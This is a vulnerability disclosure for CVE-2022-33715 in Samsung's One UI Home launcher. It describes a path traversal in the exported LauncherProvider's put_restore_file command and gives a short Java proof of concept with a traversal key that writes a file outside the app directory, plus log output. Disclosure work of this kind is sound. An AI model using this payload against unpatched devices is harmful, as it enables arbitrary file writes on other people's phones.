

# Details

<table>
    <tr>
        <td>Name</td>
        <td>One UI Home</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.launcher</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.11</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33715">CVE-2022-33715</a> (SVE-2022-0897)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1050</td>
    </tr>
</table>

# Description

Oversecured report:


The exported `com.android.launcher3.LauncherProvider` method `call()` handled different commands. The `put_restore_file` command checked if the passed `Bundle` key contained `.exml`. In this case this key was used as a relative path, vulnerable to path-traversal, and the byte array value as file contents.

**Proof of Concept**

```java
Bundle bundle = new Bundle();
bundle.putByteArray("../../../../../.exml/../Download/test.txt", "test".getBytes());
getContentResolver().call("com.sec.android.app.launcher.settings", "put_restore_file", "", bundle);
```

After running this code, the One UI Home app displayed the following log:
```
04-11 02:21:15.520  2384  2431 I PutRestoreFileMethod: initDir : /storage/emulated/0/Android/data/com.sec.android.app.launcher/files/.Restore
04-11 02:21:15.529  2384  2431 I PutRestoreFileMethod: ../../../../../.exml/../Download/test.txt filesize: 4
```
